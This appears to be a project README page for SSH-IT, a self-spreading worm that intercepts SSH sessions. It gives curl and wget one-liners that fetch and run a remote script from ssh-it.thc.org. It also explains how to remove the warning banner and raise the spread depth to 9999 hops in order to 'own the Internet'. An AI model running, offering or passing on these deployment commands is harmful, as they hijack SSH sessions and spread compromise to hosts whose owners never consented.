 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```
```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

To uninstall use:
```
thc_ctl clean
```

Screenshot
{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example.png)
{: refdef}

### ALPHA TESTING

This is ALPHA STAGE. DO NOT SHARE.
If you know about this then consider yourself special. Join us on [Telegram](https://t.me/thcorg).

ALPHA DEFAULT SETTINGS:
* ```THC_VERBOSE=1``` You will see a warning when *ssh* is being intercepted.
* ```THC_DEPTH=2``` The worm will stop spreading 2 hops from the host where it got deployed.

Take off all safety and run SSH-IT in release mode like this:
```shell
THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

Or go totally bonkers and own the Internet:
```shell
THC_DEPTH=9999 THC_NO_CONDOME=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  


